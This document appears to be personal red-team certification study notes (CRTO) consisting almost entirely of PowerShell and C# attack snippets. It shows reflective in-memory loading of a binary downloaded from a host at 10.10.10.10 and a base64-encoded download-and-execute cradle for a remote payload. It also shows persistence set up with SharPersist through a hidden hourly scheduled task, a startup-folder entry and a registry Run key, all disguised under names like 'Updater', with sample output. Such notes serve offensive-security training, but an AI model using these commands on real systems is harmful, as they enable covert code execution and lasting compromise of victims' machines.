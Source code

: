 ```yaml
---
title: CRTO Notes
date: 2021-08-04 21:00:00 0000
categories: [RED_TEAM, CRTO]
tags: [C# CRTO REDTEAMING]
---
```


```csharp
[system.reflection.assembly]::LoadFile("file")
 [namespace.class]::Main()
```

Binary reflective loading

```csharp
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/binary.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[binary.Program]::Main("".Split())
```



Presistance 

-Task Scheduler

Using SharpPresist

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/payload.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
The above snippet will produce a Base64 string which will be supplied in the snippet below:
```powershell
.\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64 ENCODED STRING HERE" -n "Updater" -m add -o hourly
```


   -t --> the desired persistence technique.<br />
   -c --> command to execute.<br />
   -a --> any arguments for that command.<br />
   -n --> the name of the task.<br />
   -m --> to add the task (you can also remove, check and list).<br />
   -o --> the task frequency.<br />
   
 -Startup Folder
 
 ```powershell
 .\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64_HERE" -f "UserEnvSetup" -m add
 ```
 
   -f --> the filename to save as.


-Registry AutoRun

```powershell
./SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

Output:
[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```


   -k --> the registry key to modify.<br />
   -v --> the name of the registry key to create.<br />

